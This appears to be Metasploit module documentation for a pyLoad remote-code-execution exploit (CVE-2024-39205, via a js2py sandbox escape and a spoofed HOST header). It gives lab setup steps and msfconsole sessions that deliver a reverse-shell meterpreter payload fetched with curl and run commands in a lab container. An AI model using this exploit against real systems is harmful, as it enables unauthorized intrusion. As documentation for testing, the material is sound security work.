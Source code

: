 ## Vulnerable Application
CVE-2024-28397 is sandbox escape in js2py (<=0.74) which is a popular python package that can evaluate
javascript code inside a python interpreter. The vulnerability allows for an attacker to obtain a reference
to a python object in the js2py environment enabling them to escape the sandbox, bypass pyimport restrictions
and execute arbitrary commands on the host. At the time of writing no patch has been released, version 0.74
is the latest version of js2py which was released Nov 6, 2022.

CVE-2024-39205 is an remote code execution vulnerability in Pyload (<=0.5.0b3.dev85) which is an open-source
download manager designed to automate file downloads from various online sources. Pyload is vulnerable because
it exposes the vulnerable js2py functionality mentioned above on the /flash/addcrypted2 API endpoint.
This endpoint was designed to only accept connections from localhost but by manipulating the HOST header we
can bypass this restriction in order to access the API to achieve unauth RCE.

## Verification Steps

1. Start a vulnerable instance of pyLoad using docker
2. Start msfconsole
3. Run: `use exploit/linux/http/pyload_js2py_cve_2024_39205`
4. Set the `RHOST`, `LHOST` `PAYLOAD` and payload associated options
5. Run: `run`

### Docker Setup

```
docker run -d \
  --name=pyload-ng \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -p 8000:8000 \
  -p 9666:9666 \
  --restart unless-stopped \
  lscr.io/linuxserver/pyload-ng:version-0.5.0b3.dev85
```

## Scenarios
### ARCH_CMD PyLoad 0.5.0b3.dev85 (with js2py 0.74)
```
msf > use linux/http/pyload_js2py_cve_2024_39205
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > options

Module options (exploit/linux/http/pyload_js2py_cve_2024_39205):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9666             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      FTdcATmGGDpa     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/pyload_js2py_cve_2024_39205) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.1:56080) at 2024-11-12 15:47:19 -0800

meterpreter > getruid
[-] Unknown command: getruid. Did you mean getuid? Run the help command for more details.
meterpreter > getuid
Server username: abc
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           :  (Linux 6.10.11-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ARCH_X64 PyLoad 0.5.0b3.dev85 (with js2py 0.74)
```
msf > use linux/http/pyload_js2py_cve_2024_39205
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > set target 1
target => 1
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/pyload_js2py_cve_2024_39205) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:56088) at 2024-11-12 15:48:42 -0800
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > getuid
Server username: abc
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           :  (Linux 6.10.11-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
